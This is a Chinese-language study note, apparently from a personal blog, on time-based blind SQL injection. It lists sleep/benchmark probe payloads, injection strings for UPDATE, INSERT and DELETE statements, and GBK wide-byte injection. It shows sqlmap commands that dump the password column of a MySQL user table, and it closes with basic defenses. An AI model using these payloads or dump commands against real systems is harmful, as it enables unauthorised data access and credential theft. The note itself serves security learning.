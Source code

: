 ```yaml
---
title: sql_注入进阶
date: 2019-01-04 13:44:43
tags: sql_inject
---
```


> 基于时间延时的盲注

> 一. 基于时间延时的盲注

​		`select sleep(5)；等待五秒，返回值是0***`

​		`select if(arg1,arg2,arg3);判断返回值的真假`

​		`select benchmark(50000,md5('abc')) `前面是执行次数，后面是执行的命令

* 判断第一个字母的方法

  

  ​	`ASCII(substr(version(),1,1)>50)`

* 判断ASCII码对应的值：	

  ​	`select chr(49);`

* 例子：

  ​	`1.select if(length(versioin())>5,sleep(3),1);先判段长度`

  ​	`2.select if(ascii substr((version()),1,1))>50,sleep(2),0);再判断每个字母是什么`



（先测试普通的注入，都不行就开始测试时间延迟盲注）

> 二. 应用：---->除了select语句以外，其他的sql语句都有危险性，千万小心！！！	



* select（搜索功能）的注入：

​		`select * from books where name like 'zs';`



* update语句注入：

  * 原句：`UPDATE Person SET FirstName = 'Fred' WHERE LastName = 'Wilson' `
  * 构造的语句：`update users set pass = '123' where if(length(version())>5,sleep(2),0)#`
  * 注意：使用update时一定返回值为0，否则密码全被改掉了！！！

* insert(插入语句)测注入：

  * 原句：`insert into users(id,name,password)value(1,'we','123')`

  * 构造的：`1',1,1)#`

    

    

* delete语句：

  * 原句：`delete from user where id =5`

    如果数据够多，可以采用布尔盲注（省时间但是会删除成功）

    如果保留数据，就采用延时盲注（可能会比较浪费时间但不会真删除）

    



> 三. 正确安全的测试注入步骤（不改数据库）：

​	先-->：
			

```	
		123' and sleep(1) #
		123" and sleep(1) #
		123') and sleep(1) #
		123") and sleep(1) #
```

​	然后-->：

```	
	123' and id = 100 and sleep(3)#
	123' and id = 1 and sleep(3)#
	123' and id = 10 and sleep(3)#
	123' and id = 11 and sleep(3)#
	123' and id = 111 and sleep(3)#
```

最后-->：

```
	123' and id = 1 and if(length(version())>5,sleep(3),0) #

	update users set img = 'uploads/1546450026timg3.jpg' where name 'qwerdf'
```

* 宽字节注入-GBK编码

  * 原理：

    GBK注入：DF 5c 2字节，利用%df’的方式就可以注入

    utf8 3字节	没有注入

* 二次编码注入

​	使用比较少，这里就不总结了

> 四. 自动扫描sql注入：sqlmap

​	启动：`python sqlmap.py --url 'http://192.168.11.86/index.php?id=1' 添加注入地址`

​	-v参数 1-6可以选择显示的详细程度，报告默认保存在家目录下

​	常规步骤：

```
	--dbs 列出所有的数据库
	-D	库 --tables列出所有的表		
	-T	表	--columns列出所有的字段		
	-C	字段 --dump获取字段内容	
	--dump列出详细信息
```

## 	

举例：`C:\tools\sqlmap-1.2.12>python sqlmap.py --url http://192.168.11.86/index.php?id=1 -D mysql -T user --columns -C password --dump`



* 五.防御sql注入的方法：
  * 1.addslashes(string)；可以把字符中的引号加上\进行转义，但是不能防御数字型注入即id=1 and 类型
  * 2.PDO进行绑定
  * 3.使用防御软件进行（如Web Application Firewall等）

